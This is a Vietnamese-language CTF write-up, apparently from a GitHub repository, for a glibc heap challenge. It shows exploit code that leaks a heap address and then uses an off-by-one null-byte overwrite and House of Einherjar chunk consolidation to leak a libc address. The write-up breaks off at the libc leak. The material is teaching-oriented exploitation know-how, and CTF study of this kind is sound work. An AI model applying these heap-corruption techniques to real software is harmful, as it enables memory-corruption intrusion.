 ## Exploit 
- trước tiên leak heap đã vì nó đơn giản 
```c 
add(0x50,b'A'*0x20,b'a') # 0
show(0)
p.recvuntil(b'A'*0x20)
heap = u64(p.recv(6) + b'\0\0')
info('heap leak: ' + hex(heap))
delete(0) #
```
### Leak Libc

- vấn đề của chall này là sau khi free 1 chunk nó sẽ xóa hết data của thằng check, hàm delete và show nó sẽ check data của thằng check thì mới cho delete vs printf => ta cần bypass qua if này
```c 
if ( !*(_QWORD *)(check + 48LL * idx + 40) )
    return puts("No such heap !");
```
- việc lợi dụng việc gán null byte cuối content ta có thể fake size chunk kế tiếp => off byte one
- bây giờ ta tạo 2 chunk size 0x100 rồi free nó , lúc này chunk đã free gộp vào nằm trong ubins size 0x221 

```c 
add(0x68,b'aaaa',b'aaaa') # 0
add(0x100,b'bbbb',b'bbbb') # 1
add(0x100,b'eeee',b'eeee') # 2
add(0x100,b'cccc',b'cccc') # 3
add(0x100,b'dddd',b'dddd') # 4

delete(1)
delete(2) # ubin size 0x220
``` 
- lúc này pre_size chunk 3 = 0x220 và size = 0x110
- sử dụng off byte one để ow 0x221 thành 0x200 

```c 
delete(0)
add(0x68,b'aaaa',b'a' * 0x68) # 0
``` 

![image](https://github.com/gookoosss/CTF/assets/128712571/16221c6c-7d9f-4b70-b5ed-350d5c4b01ab)

- điều này vô tình làm chương trình hiểu làm rằng size của ubins đang là 0x200, nên khi ta malloc 1 vùng heap trong ubins , pre_size(0x220) và size(0x110)của chunk 3 ko hề thay đổi 

![image](https://github.com/gookoosss/CTF/assets/128712571/03a04155-56a3-4040-ac65-74203de2de16)


- lý do đơn giản là 0x200 chưa chạm tới chunk 3 và nó hiểu lầm chunk 3 có addr - 0x20 nên nó sẽ thay đổi nhầm địa chỉ 
- sử dụng House of Enherjar free chunk 3 dẫn đến overlapping chunk, tạo ubin size 0x331
- lúc này chunk 2 chưa free nhưng lại nằm trong ubins nên ta có thể show ra được => bypass if => leak libc

